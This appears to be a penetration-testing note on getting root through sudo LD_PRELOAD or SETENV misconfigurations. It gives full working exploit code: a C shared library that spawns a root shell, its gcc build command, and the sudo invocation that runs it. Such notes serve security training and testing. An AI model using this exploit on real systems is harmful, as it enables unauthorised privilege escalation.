

# LD\_Preload / SETENV

There are a couple of different ways I have found this to work:

1\. In the below image, if you see the marked area when running sudo -l then you should be good to go.

<figure><figcaption></figcaption></figure>

2\. If you run sudo -l and see SETENV under sudo permissions then I would also try this. Note: I had a file path after SETENV when this worked. I have not tried it with a bin, so I can't verify if it works the same.

<figure><figcaption></figcaption></figure>

1. On attacker machine create a file called shell.c with the following code.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

<figure><figcaption></figcaption></figure>

2\. Build the shell.c code into shell.co

<pre class="language-bash"><code class="lang-bash"><strong>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
</strong></code></pre>

<figure><figcaption></figcaption></figure>

3\. Transfer the shell.so file to the target machine.

<figure><figcaption></figcaption></figure>

4\. Run the code below to get a root shell. Replace the /usr/bin/ping with the path specified in the output from sudo -l.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

<figure><figcaption></figcaption></figure>
